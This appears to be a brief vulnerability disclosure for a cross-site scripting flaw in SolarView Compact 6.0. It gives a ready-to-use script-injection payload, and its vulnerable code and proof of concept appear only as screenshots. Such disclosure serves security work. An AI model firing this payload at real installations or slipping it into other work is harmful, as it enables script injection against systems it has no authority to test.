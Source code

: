 # SolarView_Compact_6.0_xss


### Vulnerability code

![image](https://user-images.githubusercontent.com/72059221/169168747-55426da3-9150-4266-b4e3-b0bcfbbdd410.png)



### payload
```
/"><script>alert("XSS")</script>
```


### POC

![image](https://user-images.githubusercontent.com/72059221/169169114-f6b871e6-8b6a-46fa-b007-54588089e2fe.png)



![image](https://user-images.githubusercontent.com/72059221/169169170-0936209d-bad8-4c0b-99f5-f382774670f9.png)

